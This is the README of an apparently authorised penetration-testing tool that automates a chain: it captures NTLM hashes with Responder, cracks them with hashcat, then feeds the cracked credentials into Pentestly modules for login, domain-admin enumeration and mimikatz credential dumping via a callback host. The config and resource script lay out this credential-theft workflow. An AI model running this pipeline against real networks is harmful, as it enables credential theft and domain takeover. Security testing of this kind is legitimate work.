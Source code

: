## Responder to Credentials

### Install
```
pip install watchdog
git clone https://git.praetorianlabs.com/thebarbershopper/gladius
```

### Configuration
First things first, have to set our configuration:
```
[Project]
project_path = testing2

[Responder]
hashcat = /root/tools/hashcat/hashcat-cli64.bin
wordlist = /root/tools/hashcat/rockyou.txt
ruleset = /root/tools/hob064.rule
watch_path = /opt/responder/logs

[Pentestly]
nmap = /tmp/gladius.xml

[Recon-ng]
path = /opt/recon-ng/recon-ng

[Mimikatz]
lhost = 10.10.11.156
```

### Start
After setting up configuration, simple start.
```
python2 start.py
```

```
[root@Praetorian-IPTD-4 auto-pentest]# python2 start.py --help
usage: start.py [-h] [-v]

optional arguments:
  -h, --help     show this help message and exit
  -v, --verbose  Increased output verbosity
```

### Start Responder and watch cracked credentials fly by..

### Output

![exmaple.png](example.png)

### Example module

```
class CredsHandler(GladiusHandler):

    patterns = ['*']

    def process(self, event):
        with open(event.src_path, 'r') as f:
            data = f.read().split('\n')

        # Perform work on data
```


Add yourself to the handlers list
```
handlers = [(ResponderHandler, config.get('Responder', 'watch_path')),
            (CredsHandler, ResponderHandler().outpath),
            (PentestlyHandler, CredsHandler().outpath)]
```

### Workings

#### Responder

Watches responder log for `*NTLM*txt` files. For each file found, parses output, creates a temp file containing the new hashes, and passes this to hashcat with the correct hash type

#### Credentials

Watches for output from `hashcat` and exports files with the following format:

```
Domain Username Password
```

#### Pentestly

Watches for sanitized hashcat output and passes credentials to `pentestly` via the following resource script.

```
workspaces add gladius
load nmap
set filename /tmp/gladius.xml
run

load login
set domain DOMAIN
set username USERNAME
set password PASSWORD
run

load get_domain_admin_names
run

load mimikatz
set lhost LHOST
run

load reporting/csv
set filename OUTFILE
set table pentestly_creds
run
```

#### Admin

Watches for output from Pentestly and parses the found credentials for `Local Admin` and new credentials from `Mimikatz`
